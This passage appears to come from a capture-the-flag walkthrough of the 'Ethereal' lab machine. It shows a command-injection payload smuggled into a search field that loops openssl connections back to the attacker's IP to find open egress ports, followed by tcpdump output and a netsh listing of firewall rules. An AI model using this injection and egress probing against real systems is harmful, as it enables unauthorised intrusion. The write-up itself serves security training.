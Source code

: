 ```

ethereal> quiet FOR /L %G IN (1,1,200) DO (c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:%G)

```

That will try to connect to me on all the ports 1-200, by sending a POST that has a search field that looks like `search=& ( FOR /L %G IN (1,1,200) DO (c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:%G) )`.

I’ll watch for tcp syn packets from 10.10.10.106 in `tcpdump`:

```

root@kali# tcpdump -ni tun0 "src host 10.10.10.106 and tcp[tcpflags] == (tcp-syn)"
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
17:56:07.919571 IP 10.10.10.106.49754 > 10.10.14.14.73: Flags [S], seq 793376072, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
17:56:08.528789 IP 10.10.10.106.49754 > 10.10.14.14.73: Flags [S], seq 793376072, win 8192, options [mss 1357,nop,nop,sackOK], length 0
17:56:53.276709 IP 10.10.10.106.49817 > 10.10.14.14.136: Flags [S], seq 2392131827, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
17:56:54.275185 IP 10.10.10.106.49817 > 10.10.14.14.136: Flags [S], seq 2392131827, win 8192, options [mss 1357,nop,nop,sackOK], length 0

```

I get connections back on two ports, 73 and 136.

#### Firewall

I’m going to use the `netsh advfirewall` command to print the firewall rules, but I’m going to just get the name lines (using `findstr`, Window’s `grep` equivalent), because my shell is so slow:

```

ethereal> cmd /c "netsh advfirewall firewall show rule name=all|findstr Name:"
Rule Name: @{Microsoft.XboxGameCallableUI_1000.14393.0.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.XboxGameCallableUI/resources/PkgDisplayName}
Rule Name: @{Microsoft.Windows.Apprep.ChxApp_1000.14393.2339.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Apprep.ChxApp/resources/DisplayName}
Rule Name: @{Microsoft.LockApp_10.0.14393.2068_neutral__cw5n1h2txyewy?ms-resource://Microsoft.LockApp/resources/AppDisplayName}
Rule Name: @{Microsoft.AccountsControl_10.0.14393.2068_neutral__cw5n1h2txyewy?ms-resource://Microsoft.AccountsControl/Resources/DisplayName}
Rule Name: @{Microsoft.Windows.Cortana_1.7.0.14393_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Cortana/resources/PackageDisplayName}
Rule Name: @{Microsoft.Windows.Cortana_1.7.0.14393_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Cortana/resources/PackageDisplayName}
Rule Name: @{Microsoft.Windows.ShellExperienceHost_10.0.14393.2068_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.ShellExperienceHost/resources/PkgDisplayName}
Rule Name: @{Microsoft.Windows.CloudExperienceHost_10.0.14393.1066_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.CloudExperienceHost/resources/appDescription}
Rule Name: @{Microsoft.Windows.CloudExperienceHost_10.0.14393.1066_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.CloudExperienceHost/resources/appDescription}
Rule Name: @{Microsoft.AAD.BrokerPlugin_1000.14393.0.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.AAD.BrokerPlugin/resources/PackageDisplayName}
Rule Name: @{Microsoft.AAD.BrokerPlugin_1000.14393.0.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.AAD.BrokerPlugin/resources/PackageDisplayName}
Rule Name: FTP (non-SSL)
Rule Name: Allow ICMP Reply
Rule Name: Allow ICMP Request
Rule Name: Allow UDP Port 53
Rule Name: Allow TCP Ports 73, 136
Rule Name: Allow Port 80, 8080
```